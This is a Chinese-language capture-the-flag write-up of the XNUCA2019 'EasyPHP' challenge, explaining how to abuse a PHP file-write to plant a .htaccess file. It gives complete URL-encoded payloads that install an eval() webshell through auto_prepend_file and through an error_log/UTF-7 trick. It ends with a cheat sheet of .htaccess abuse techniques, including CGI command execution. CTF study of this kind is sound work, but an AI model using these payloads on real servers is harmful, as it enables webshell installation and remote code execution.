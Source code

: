 # \[XNUCA2019Qualifier]EasyPHP

## \[XNUCA2019Qualifier]EasyPHP

## 考点

* .htaccess修改PHP配置

## wp

给了源码，第一段删除除了index.php之外的所有文件，再包含fl3g.php，不对啊fl3g.php应该没有了啊为什么不报错，并且代码可以顺利执行。需要GET传入两个参数content和filename

```php
$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
include_once("fl3g.php");
if(!isset($_GET['content']) || !isset($_GET['filename'])) {
    highlight_file(__FILE__);
    die();
}
```

第二段代码对传入的内容进行检查。content不能包含`on,html,type,flag,upload,file` ，filename必须由小写字母和`.` 组成

```php
$content = $_GET['content'];
if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
    echo "Hacker";
    die();
}
$filename = $_GET['filename'];
if(preg_match("/[^a-z\.]/", $filename) == 1) {
    echo "Hacker";
    die();
}
```

接着最后一段代码，删除除了index.php之外的所有文件，在把content写入到filename中

```php
    $files = scandir('./');
    foreach($files as $file) {
        if(is_file($file)){
            if ($file !== "index.php") {
                unlink($file);
            }
        }
    }
    file_put_contents($filename, $content . "\nJust one chance");
```

传入`?content=123&filename=.aaa` 再访问`.aaa` 可以看到内容

```
123
Just one chance
```

这里给的提示很明显了，文件名只由小写字母和`.` 组成，那就是`.htaccess`

### 第一种做法

在`.htaccess` 中使用`#` 进行单行注释，由于在代码中使用`.` 对content进行拼接，如果content最后加上`\` 就会把拼接的 给注释掉。再配合`#` 就可以注释掉拼接内容了。

接着是利用.htaccess写shell，将一句话写入到.htaccess的注释中，再利用它自动加载文件的特性加载.htaccess文件，从而加载一句话

content为

```
php_value auto_prepend_file ".htaccess"
# <?php eval($_GET[1]);?>\
```

由于file被过滤，可以使用`\` 绕过，就像Linux命令行那样，而换行可以使用`%0A` ，或者直接把下面这段进行URL编码

```
php_value auto_prepend_fi\
le ".htaccess"
# <?php eval($_GET['1']);?>\
```

payload

```
filename=.htaccess&content=php_value+auto_prepend_fi%5c%0ale+%22.htaccess%22%0a%23+%3c%3fphp+eval(%24_GET%5b%271%27%5d)%3b%3f%3e%5c&1=phpinfo();
```

![](../.gitbook/assets/qaLCFQtVs3xkMDDcLMg3icBbQ7u6JtXOhaUMYkncNC4.png)

### 第二种做法

利用`.htaccess` 自定义错误日志和默认包含路径进行getshell。首先设置错误日志为`/tmp/fl3g.php` ，再把默认包含路径设为一句话，这样在写入错误日志时就会把一句话也写入

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "<?php eval($_GET[1]);?>"
# \
```

但是在日志写入时，会把`<>` 这些字符进行编码，所以使用UTF-7编码绕过

```
php_value error_log /tmp/fl3g.php
php_value error_reporting 32767
php_value include_path "+ADw?php eval($_GET[1])+ADs +AF8AXw-halt+AF8-compiler()+ADs"
# \
```

将shell写入后，需要再写一个.htaccess设置默认包含路径为`/tmp` ，并且让其使用UTF-7的方式解码。这样在index.php中`include_once("fl3g.php");` 时，就会包含一句话

```
php_value include_path "/tmp"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
# \
```

payload

```
filename=.htaccess&content=php_value+error_log+%2ftmp%2ffl3g.php%0aphp_value+error_reporting+32767%0aphp_value+include_path+%22%2bADw%3fphp+eval(%24_GET%5b1%5d)%2bADs+%2bAF8AXw-halt%2bAF8-compiler()%2bADs%22%0a%23+%5c

filename=.htaccess&content=php_value+include_path+%22%2ftmp%22%0aphp_value+zend.multibyte+1%0aphp_value+zend.script_encoding+%22UTF-7%22%0a%23+%5c&1=phpinfo();
```

![](../.gitbook/assets/c4tMvaKI3ue6nf8muLY6qo\_t5p89rzT6qtW4nYIK0I4.png)

### 第三种做法

利用正则回溯，preg\_match函数有prce回溯，如果超过回溯次数就会返回FALSE。而在本题，所有preg\_match的判断都是是否为TRUE，所以可以使用这个方法绕过。

在.htaccess中设置回溯次数的方法是

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

但是这个方法是有问题的，要先写入修改正则回溯次数的内容到.htaccess中，但是当第二次向fl3g.php写入一句话的时候，上次上传的.htaccess已经被删除，所以会一直提示Hacker。

## 小结

1. 在`.htaccess` 中使用`#` 进行单行注释
2. 在`.htaccess` 中使用`\`进行多行拼接
3. 在`.htaccess` 中使用`php_value auto_prepend_file "1.jpg"` 在脚本头部加载文件
4. `.htaccess` 可以自定义错误日志路径
5. `.htaccess` 可以自定义默认包含路径
6. `.htaccess` 可以使用UTF-7编码绕过一些限制
7. `.htaccess` 可以自定义preg\_match函数prce回溯次数
8. [Apache中.htaccess文件利用的总结与新思路拓展](https://www.freebuf.com/vuls/218495.html)
9. [.htaccess利用与Bypass方式总结](https://www.anquanke.com/post/id/205098)
10. .htaccess利用方式

```
当前目录及其子目录下所有文件都会被当做php解析
SetHandler application/x-httpd-php

对指定后缀文件以选定的文件类型解析为php
AddType application/x-httpd-php .a

将当前目录下的文件当作文本解析
<FilesMatch "\.ph.*$">
SetHandler text/plain
</FilesMatch>

利用apache的服务器状态信息，可以查看所有访问本站的记录，访问127.0.0.1/server-status
SetHandler server-status

加载cgi_module
Options ExecCGI
AddHandler cgi-script .xx
接下来，以Windows平台为例，上传poc.xx文件，内容如下：
#!C:/Windows/System32/cmd.exe /c start calc.exe
1
第一行用来表示CGI程序的路径。可以随便开你的脑洞。
因为CGI程序处理完成后，会被Apache关闭，所以我们这里要用启动新进程的方式来启动。
这时访问poc.xx。计算器就出来了。
```

